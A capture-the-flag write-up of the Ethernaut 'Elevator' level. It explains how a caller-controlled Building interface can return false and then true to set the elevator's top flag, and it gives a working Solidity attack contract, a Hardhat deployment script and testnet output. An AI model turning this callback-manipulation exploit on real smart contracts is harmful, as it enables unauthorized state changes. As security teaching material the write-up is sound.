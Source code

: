 ```yaml
---
title: Ethernaut \#11 Elevator
tags: [ethernaut]
style: border
color: primary
description: Ethernaut Elevator challenge writeup
---
```


## Elevator

### Challenge

This elevator won't let you reach the top of your building. Right?

#### Things that might help:

* Sometimes solidity is not good at keeping promises.
* This `Elevator` expects to be used from a `Building`.


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}


contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```

### Background

This is a very simple attack. We need to keep in mind that as long as we follow the `Building` `interface` then the `Elevator` can interact with our contract. However, since the `Building` contract is under the attackers control, there is no limit regarding what else the contract can do.

### Attack

Create a contract that satisfies the the `Building` `interface` but flips its response each time. Make sure that `isLastFloor` will respond `false` the first time, and `true` the second. This will make the first call that checks if its the top floor say its not, and the second that sets the `top` variable say it is.

* Create a contract that implements `isLastFloor` but returns `false` the first time and `true` the second
* Call the `goTo` function through the attacker controlled contract


#### ElevatorSolve.sol

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.4;

import '../challenges/Elevator.sol';

contract ElevatorSolve {

    Elevator elevatorContract;
    bool lastFloor;

    constructor(address payable _elevatorAddress) public {
        elevatorContract = Elevator(_elevatorAddress);
        lastFloor = true;
    }
    
    function isLastFloor(uint) external returns (bool) {
        lastFloor = !lastFloor;
        return lastFloor;
    }

    function goTo (uint _floor) public {
        elevatorContract.goTo(_floor);
    }

}
```

#### elevator-solve.js

```javascript
const hre = require("hardhat");
const { ethers, upgrades } = require("hardhat");

async function main() {
    elevatorAddress = "0xe8cAdc8eA3A2D55907409cc18a3bB4a71f356379";
    contract = await ethers.getContractAt("Elevator", elevatorAddress);
    
    const accounts = await hre.ethers.getSigners();
    account = accounts[0];
    
    ElevatorSolve = await ethers.getContractFactory("ElevatorSolve");
    elevatorSolve = await ElevatorSolve.deploy(contract.address);
    await elevatorSolve.deployed();

    console.log("Initial Floor: " + await contract.floor())
    console.log("Initial Top  : " + await contract.top())

    // call the goTo function to trigger the attack
    tx = await elevatorSolve.connect(account).goTo(2)
    receipt = await tx.wait()

    console.log("Floor        : " + await contract.floor())
    console.log("Top          : " + await contract.top())
    
}

main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```

```bash
$ npx hardhat run scripts/elevator-solve.js --network rinkeby
Initial Floor: 0
Initial Top  : false
Floor        : 2
Top          : true
```

### Success Message

You can use the `view` function modifier on an interface in order to prevent state modifications. The `pure` modifier also prevents functions from modifying the state. Make sure you read [Solidity's documentation](http://solidity.readthedocs.io/en/develop/contracts.html#view-functions) and learn its caveats.

An alternative way to solve this level is to build a view function which returns different results depends on input data but don't modify state, e.g. `gasleft()`.
